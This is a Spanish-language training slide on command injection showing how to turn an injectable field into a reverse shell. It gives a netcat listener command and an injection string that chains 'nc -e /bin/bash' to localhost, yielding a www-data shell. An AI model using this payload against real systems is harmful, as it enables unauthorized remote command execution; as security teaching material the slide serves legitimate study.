

# Ejemplos
Inyección de comandos
Como explotar este ejemplo

Ahora que pudimos ejecutar el comando de sistema “date” sabemos que podemos correr otros.

Intentemos una conexión reversa

Computadora atacante (listener)
nc -lvp 4444

Browser
' && nc -e /bin/bash 127.0.0.1 4444 && echo '

Como resultado tenemos una conexión con el usuario www-data